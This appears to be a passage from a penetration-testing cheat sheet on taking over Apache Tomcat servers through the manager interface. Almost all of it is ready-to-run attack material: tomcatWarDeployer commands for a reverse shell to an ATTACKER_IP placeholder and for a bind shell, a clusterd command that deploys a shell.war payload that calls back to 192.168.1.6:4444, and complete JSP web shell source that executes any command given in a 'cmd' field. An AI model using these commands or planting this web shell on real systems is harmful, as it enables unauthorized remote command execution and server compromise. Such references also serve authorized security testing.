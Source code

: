 ### Bind and reverse shell with [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)

In some scenarios this doesn't work (for example old versions of sun)

#### Download

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

#### Reverse shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

#### Bind shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

### Using [Culsterd](https://github.com/hatRiot/clusterd)

```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Manual method - Web shell

Create **index.jsp** with this [content](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp):

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```
